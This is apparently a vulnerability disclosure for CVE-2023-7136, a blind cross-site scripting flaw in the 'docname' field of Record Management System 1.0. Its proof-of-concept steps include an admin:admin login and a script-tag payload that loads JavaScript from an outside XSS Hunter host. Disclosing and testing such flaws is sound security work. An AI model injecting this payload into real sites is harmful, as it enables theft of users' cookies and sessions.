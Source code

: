 # CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Exploit Title:** CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7136

## References: 
+ **CVE-2023-7136:** https://vuldb.com/?id.249139
+ https://www.cve.org/CVERecord?id=CVE-2023-7136

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'docname' in "/recordmanagement/main/doctype.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Document Type: "http://localhost/recordmanagement/main/doctype.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Doc Type and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![4-1](https://github.com/h4md153v63n/CVEs/assets/5091265/8bfdf785-ec1f-4c13-b744-0a113fb5dc7b)
<br>
<br>
![4-2](https://github.com/h4md153v63n/CVEs/assets/5091265/3b18e148-3622-4695-88f6-57291836d32c)
<br>
<br>
![4-3](https://github.com/h4md153v63n/CVEs/assets/5091265/d8c1cf8c-ce5f-46fd-bc21-cfcbfe0a2d93)
<br>
<br>
![4-4](https://github.com/h4md153v63n/CVEs/assets/5091265/b15fbf45-0d73-45f1-8cc2-7a06ab8b7c78)
